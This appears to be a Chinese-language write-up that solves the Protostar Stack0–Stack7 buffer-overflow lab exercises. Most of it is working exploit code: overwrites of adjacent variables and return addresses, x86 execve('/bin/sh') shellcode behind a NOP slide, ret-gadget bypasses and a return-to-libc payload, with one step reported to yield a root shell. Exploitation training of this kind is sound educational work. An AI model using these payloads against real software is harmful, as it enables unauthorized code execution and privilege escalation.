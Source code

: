 # Stack

## Stack0

先蓋 64 個字

再蓋下去就是 modified (目標)

這題只要讓 modified != 0

所以隨便蓋就好

`python -c "print 'A'*64+'whatever'" | ./stack0`

## Stack1

這題 modified 和 buffer 的相對距離一樣是 64 個字

但是要把 modified 變成 0x61626364 (小心 little endian)

注意 input 是從 argv 參數進來的 (我用 xargs 把 python 產生的字給 stack1 當參數)

`python -c "print 'A'*64+'dcba'" | xargs ./stack1`

## Stack2

這題也一樣

不過 input 變成從 GREENIE(環境變數) 拿值進來

```
GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
export GREENIE
./stack2
```

## Stack 3

這題要把 fp (function pointer) 改成 win 這個函式的位置

offset (buffer 和 fp 的相對距離) 也一樣是 64 bytes (也就是先蓋 64 個字之後就蓋到目標 fp 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x8048424

`python -c "print 'A'*64+'\x24\x84\x04\x08'" | ./stack3`

## Stack4

這題要把 stack 上的 return address 改成 win 這個函式的位置

offset (buffer 和 return address 的相對距離) 是 76 bytes (也就是先蓋 64 個字之後就蓋到目標 return address 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x80483f4

`python -c "print 'A'*76+'\xf4\x83\x04\x08'" | ./stack4`

## Stack5

這題要把 shellcode 塞到 stack 上執行囉~(興奮XD)

首先正確的蓋到 return_address (讓他 return 到 stack 後面一點的位置)

再建一個 nop 通道讓他滑到執行 shellcode

然後當然也要把 shell code 放到 stack 上

```python
import struct

padding = 'A'*76
return_address = struct.pack("I",0xbffff78c+50)
slide_path = '0x90'*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
print padding + return_address + slide_path + shell_code
```

`(python exploit.py ; cat ) | ./stack5`

拿到 sh 了而且還是 root 的權限 (我們原本是 user 的權限)

## Stack6

這題和上一題差不多只要我們能 return 到我們塞的 shellcode 就好

可是多了這行 `if((ret & 0xbf000000) == 0xbf000000)` ( 如果成立就直接 exit )

而 0xbf 開頭的位址就包含了我們能控制的所有 stack

#### 作法一 : 

我們在 stack 上把 return address 和他的下一個位址改成 `ret` 那行 code 的位址和我們真正要 return 的位址

所以程式檢查 return address 是不是 0xbf 開頭 -> 當然不是因為現在的 return address 是 `ret` 那行 code 的位址

然後執行到 `ret` 時就會先 return 到 `ret` 那行 code ( 也就是再 return 一次 )

所以就會抓 stack 上面下一個值 return 到我們真正要 return 的位址 -> BINGO

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x80484f9)
return_address = struct.pack("I",0xbffff78c+30)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`(python exploit.py ; cat ) | ./stack6`

#### 作法二 : 

return to libc 的 system 函式並傳遞 "/bin/sh" 的參數進去

從 return address 開始蓋

蓋 libc 中 system 這個 function 的位址

蓋 system call 完要 return 的 address

蓋 "/bin/sh" 這個參數 ( 用 linux 指令 strings 去找 libc 裡面這個字串的位址 )

```python
import struct

padding = "A"*80
system = struct.pack("I",0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack("I",0xb7fb63bf)

print padding + system + return_after_system + bin_sh
```

`(python exploit2.py ; cat ) | ./stack6`

## Stack7

這次不給跳到 0xb 開頭的位址 ( Stack6 的作法二不能用了 )

和 Stack6 的作法一一樣先塞個 gadget ( 0x80 開頭 )

注意位址要再用 gdb 找一次喔

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x8048544)
return_address = struct.pack("I",0xbffff77c+50)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`(python exploit.py ; cat ) | ./stack7`
